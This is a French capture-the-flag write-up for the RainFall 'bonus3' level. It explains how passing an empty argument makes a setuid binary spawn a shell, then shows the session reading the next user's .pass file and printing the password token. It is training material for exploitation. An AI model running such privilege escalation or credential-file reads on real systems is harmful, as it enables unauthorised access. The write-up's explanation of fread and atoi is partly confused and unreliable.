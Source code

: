 #### Etape 1 : Décompilation

```bash 
bonus3@RainFall:~$ ./bonus3 aaaa bbbb
bonus3@RainFall:~$ ./bonus3 0

bonus3@RainFall:~$ ./bonus3 /x90

bonus3@RainFall:~$ ./bonus3 aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa

bonus3@RainFall:~$ ./bonus3 aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa b
bonus3@RainFall:~$
bonus3@RainFall:~$ ./bonus3
bonus3@RainFall:~$ 
```
Voir source.c

#### Etape 2 : Informations

Le binaire prend au moins 1 argument sinon il exit le programme, celui ci ensuite esssaye de lire le .pass de end mais nous n'avons pas les droits et le stock dans une variable local98 grace a un fread(). Ensuite le programme fait appel a atoi() avec comme paramètre av[1]. et en fonction du resultat de la variable ivar2 il ouvre un shell grace a exceve() ou fait un puts().
#### Etape 3 : Idée

L'idée sera donc de faire en sorte que le ivar2 qui fait un strcmp() soit egale a 0 pour lancer un shell.
Nous allons donc envoyer un argument precit afin de lancer le shell.
strcmp renvoie 0 si les 2 chaines sont identiques.
Vu que notre fopen ne peux pas lire le fichier .pass car nous n'avons pas les droits il va renvoyer NULL et donc avec fread NULL va etre stocké dans la variable local98. Comme le dit la partie du man ci-dessous:
```bash
Man fopen
RETURN VALUE         top
       Upon successful completion fopen(), fdopen(), and freopen()
       return a FILE pointer.  Otherwise, NULL is returned and errno is
       set to indicate the error.
```
Pour renvoyer un argument pour que strcmp() renvoie 0 nous allons devoir envoyer un argument qui quand il passe par atoi() renvoie NULL.
```bash
MAN atoi
RETURN VALUE         top
       The converted value or 0 on error.
```
On sait que envoyer une string sur atoi() renvoie 0 si la string n'est pas un nombre. mais notre but est de renvoyer NULL donc d'envoyer une string vide.


#### Etape 4 : Execution 

```bash
bonus3@RainFall:~$ ./bonus3 ""
$ whoami
end
$ cat /home/user/end/.pass
3321b6f81659f9a71c76616f606e4b50189cecfea611393d5d649f75e157353c
$ exit
bonus3@RainFall:~$ su end
Password:
end@RainFall:~$ ls
end
end@RainFall:~$ cat end
Congratulations graduate!
end@RainFall:~$

```
